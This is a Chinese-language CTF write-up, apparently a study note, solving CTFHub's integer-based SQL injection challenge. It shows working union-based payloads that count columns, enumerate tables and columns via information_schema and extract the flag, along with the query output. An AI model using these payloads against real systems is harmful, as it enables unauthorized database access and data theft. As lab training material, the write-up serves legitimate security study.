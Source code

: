 # CTFHUB_整数型注入

## 题目内容

![image-20210822185008421](/home/adian/note/Study_Note/网络安全/CTF/pic/14.png)

## WriteUp
就是整数型注入，改了个数据库名，不做解析

首先使用单引号使其报错

```
http://challenge-91a8cfbee86c0272.sandbox.ctfhub.com:10800/?id=1'
```

报错，并能通过给出的sql语句判断存在sql注入漏洞

下一步我们查询字段数量

```
1 order by 2
```

在order by 3的时候，报错，证明有两个字段，然后我们查询当前数据库

```
1 union select 1,database()
```

结果还是显示ctfhub，这个时候我们需要给参数1前面加上`-`使其报错

```
-1 union select 1,database()
```

得到数据库名sqli

```
select * from news where id=-1 union select 1,database()
ID: 1
Data: sqli
```

然后我们使用information_schema来获取sqli数据库下的表名

```
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

得到表名为news和flag

```
select * from news where id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
ID: 1
Data: news,flag
```

我们猜解flag表的字段

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
```

得到如下结果

```
select * from news where id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
ID: 1
Data: flag
```

得到信息，在flag表下有flag字段，我们查询他

```
-1 union select 1,flag from flag
```

得到结果

```
select * from news where id=-1 union select 1,flag from flag
ID: 1
Data: ctfhub{44894463000b4ee3e057bc5d}
```

